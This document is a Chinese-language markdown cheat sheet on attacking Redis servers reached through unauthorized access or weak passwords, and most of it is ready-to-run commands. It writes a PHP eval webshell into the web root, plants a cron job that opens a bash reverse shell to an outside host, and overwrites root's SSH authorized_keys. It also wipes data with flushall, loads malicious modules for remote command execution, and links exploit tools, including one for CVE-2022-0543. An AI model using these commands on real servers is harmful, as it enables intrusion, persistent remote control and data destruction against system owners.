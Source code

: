 # Redis 漏洞利用
## 0x00 Introduction
redis是一个key-value存储系统。   

### 前置条件      
获取redis权限
- 未授权
- 弱口令

### 达成的漏洞利用效果
- 写任意文件
- 信息泄露
- 远程命令执行

## 0x01 漏洞利用

### 1. 信息泄露

#### (1)info命令

可以泄露操作系统信息，以此为后续漏洞利用做准备。   

### 2. 写任意文件->RCE

#### (1) 新建DB写文件->webshell
附件条件：
1. 同主机存在web服务
2. 已知网站路径
3. 具备写权限 
    
```
config set dir /var/www/html    
config set dbfilename webshell.php  
set shell "<?php @eval($_POST['shell']);?>"  
save  
```
#### (2) 新建DB写文件->计划任务反弹shell


>真实环境慎用，需要清空数据影响生产环境

清空数据
```
redis-cli -h 192.168.1.11
redis> flushall
```
写计划文件
```
redis-cli -h 192.168.1.11
redis> config set dir /var/spool/cron
redis> set re "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/8899 0>&1\n\n"
redis> config set dbfilename root
redis> save
```

#### (3) 新建DB写文件->公钥SSH连接

>真实环境慎用，需要清空数据影响生产环境

获取本地ssh公钥
```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > re.txt
```
需要清空数据
```
redis-cli -h 192.168.1.11
redis> flushall
```
写秘钥
```
cat re.txt | redis-cli -h 192.168.1.11 -x set re
redis> config set dir /root/.ssh
redis> config set dbfilename authorized_keys
redis> save
```
本地连接：
```
ssh  -o StrictHostKeyChecking=no 192.168.1.1
```
### 3. 远程命令执行

#### (1) 主从同步->RCE
- 附加条件： redis 4.x-5.0.5
- 在Redis 4.x之后，Redis新增了模块功能，通过外部拓展，可以在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。  

#### Linux
- 漏洞利用： https://github.com/Ridter/redis-rce
- linux 命令执行模块（so）：https://github.com/RicterZ/RedisModules-ExecuteCommand.

redis-rce工具一键利用    
#### Windows
- 漏洞利用：https://github.com/r35tart/RedisWriteFile
- windows 命令执行模块（dll）:https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

```
python RedisWriteFile.py --auth 123qwe --rhost=10.20.3.97 --rport=6379 --lhost=10.10.10.31 --lport=2222 --rpath="C:\Users\test\Desktop" --rfile="exp.dll" --lfile="exp.dll" 

redis:
>module load C:\Users\test\Desktop\exp.dll 
>exp.e whoami
```
#### (2) Redis沙盒绕过（CVE-2022-0543）
- 附加条件： 2.2 <= redis < 5.0.13，2.2 <= redis < 6.0.15，2.2 <= redis < 6.2.5
- 漏洞利用：https://github.com/aodsec/CVE-2022-0543

#### (3) 结合Jackson,Fastjosn等反序列化的漏洞利用（java）
- 附加条件：Java 反序列化漏洞
参考 [细数 redis 的几种 getshell 方法](https://paper.seebug.org/1169/)

## Ref
- https://www.freebuf.com/column/237263.html
